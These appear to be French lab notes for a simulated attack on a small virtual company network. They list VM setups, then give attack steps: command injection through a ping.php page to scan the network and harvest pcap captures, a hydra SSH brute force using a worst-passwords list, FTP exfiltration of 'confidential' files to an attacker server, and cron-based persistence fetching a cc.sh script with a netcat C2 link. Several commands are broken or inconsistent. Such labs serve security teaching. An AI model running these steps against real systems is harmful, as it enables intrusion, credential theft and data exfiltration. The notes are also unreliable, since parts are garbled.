 ## serveurs / VM :

### www : 
- à installer :  
`sudo apt-get update -y`  
`sudo apt-get install -y apache`  
`sudo apt-get install –y php7  ` 
- avec fichier :
    - ping.php 
    - logs.php
### poste :
- à installer :  
`sudo apt-get update -y`    
`sudo apt-get install -y iptables`  
`sudo apt-get install -y openssh-server`



#### pirate :
- À installer :  
`sudo apt-get update -y`    
`sudo apt-get install -y wireshark`  
`sudo apt-get install -y tcpdump`  
- Mais aussi il faut installer ces paquets :
    - ##### partie client FTP :
    `sudo apt-get install -y filezilla`  
    `sudo apt-get install -y ftp`  
    `sudo apt-get install -y sleuthkit`   
    
    - ##### partie client SSH :
    
    `sudo apt-get install -y ssh`  

#### Serveur ftp-pirate :
- À installer :  
`sudo apt-get update -y`    
`sudo apt-get install -y vsftpd` 

#### Serveur ssh-pirate :
- À installer :  
`sudo apt-get update -y`  
`sudo apt-get install -y openssh-server`


#### Serveur cc-pirate :
- À installer :  
`sudo apt-get update -y`  



### depuis www
A6 )

le pirate va sur la page $ip_www/ping.php

```php
; sudo history ; // historique des commandes

; sudo apt-get install -y nmap ; // installation avec yes

; sudo apt-get install tcpdump -y && sudo tcpdump --interface any -c 400  -w data.pcap ;  // s'arrete après 400 paquets

; ip a ; //note l'adresse réseau 192.168.0.56

: nmap -T4 -sP 192.168.0.0/24 | grep for ; // scanne le réseau local de www

// tu notes l'adresse IP qui est différente de www sauf Routeur

; sudo dpkg -l > res.txt && cat res.txt && rm -rf res.txt ; // listes des paquetages installés par rapport à l'indice A6
; sudo dpkg -s | grep "Package" ; // listes des paquetages installés par rapport à l'indice A6


; sudo dpkg -l | grep -i "tcpdump" ; //équiavlent de Wireshark en ligne de commandes s'il est installé alors des fichiers pcap seront générables


; sudo find / -name "*.pcap*" ; // recherche tous les fichiers .pcap lisible avec Wireshark du disque dur // noté les fichiers

 sudo tcpdump -h

-r file



sudo tcpdump -r /home/etudiant/data.pcap // affiche en ligne de commande l'ensemble de la capture réseau du fichier .pcap en gros wireshark juste en ligne de commande
 
//étape optionnelle




; sudo cp `sudo find / -name "*.pcap*"` /var/www/html/ ;


```

A7)

> [!WARNING]
> le pirate va sur la page $ip_www/ping.php
créer lorie sur poste de travail
sudo adduser lorie
rentrer le mot de passe
entrée à tout + y

avec un mot de passe dans la liste des 500 pires mot de passes
```php
; sudo cat auth.log ; // note le nom d'utilisateur du pc poste de travail
; sudo find / -name "auth.log" ; 

// filtrer sur le fichier pour avoir le nom d'utilisateur
; sudo cat auth.log | grep "postedetravail" | cut -f 4 -d ' ' | uniq ;
// bruteforce
; curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/500-worst-passwords.txt > 500-worst-passwords.txt ;
; hydra -l lorie -P 500-worst-passwords.txt $ip_postedetravail ssh ;





```
A8)

- poste de travail
echo "confidentiel" > draft_iphone30.docx 
echo "database data" > client_database.sql
sudo apt-get update -y && apt-get install -y vsftpd

docx=word


-  ftp-pirate -> poste :
<!-- curl ftp_transf.sh > ftp_transf.sh -->


ftp poste 
ls
mget *
quit

- serveur pirate ftp

ftp-pirate
sudo nano /etc/vsftpd.conf 
décommenter write_enable=yes
sudo sytemctl restart vsftpd
from poste to ftp-pirate
mput *


A9) 
- côté 
echo 'byebye' > pots_de_vin1.xlsx
echo 'naruto' > pots_de_vin8.xlsx
echo 'hinataestnul' > pots_de_vinnaruto.xlsx



A10)




Serveur entreprise :

curl github..../cc.sh > cc.sh
chmod 777 > cc.sh
mv cc.sh /etc
//lister les actions du fichier crontab
sudo crontab -l 

sudo export EDITOR=nano
sudo crontab -e





H 3 * * * /etc/cc.sh &> /dev/null


// ou
H 3 * * * nc -l -p 5659 &> /dev/null


// ou

00 3 * * * /etc/cc.sh &> /dev/null


Serveur CC :

nc $ipsrventreprise 5689

## définitions des IP

177.16.1.5 cc-pirate
<!-- 177.16.1.3 pirate  *obsolète* -->

## Explications :

-  VM vers hôte uniquement:réseau privé hôte (routeur) -> dédiée au SSH
-  VM vers VM voire hôte : Accès par pont : Réseau1bis(entreprise)
-  VM vers VM : Accès par pont : Réseau1(entreprise) 
-  VM vers VM : Accès par pont : Réseau2(pirate) 

Routeur fait liaison de Réseau1(entreprise)  vers Réseau2(pirate) 


- réseau privé hôte : 192.168.1.1 192.168.1.2 192.168.1.3
- Accès par pont : Réseau1(entreprise) : 192.168.1.21 (www) 192.168.1.56(Routeur) 192.168.1.X
- Accès par pont : Réseau2(pirate) : 172.16.110.X ...

liens   :
A6 )
https://www.makeuseof.com/tcpdump-examples/#:~:text=%20The%20tcpdump%20Output%20Format%20%201%20Timestamp,9%20Window%20size%2010%20Packet%20length%20More%20


A7)
https://www.kali-linux.fr/hacking/tutohydrabruteforce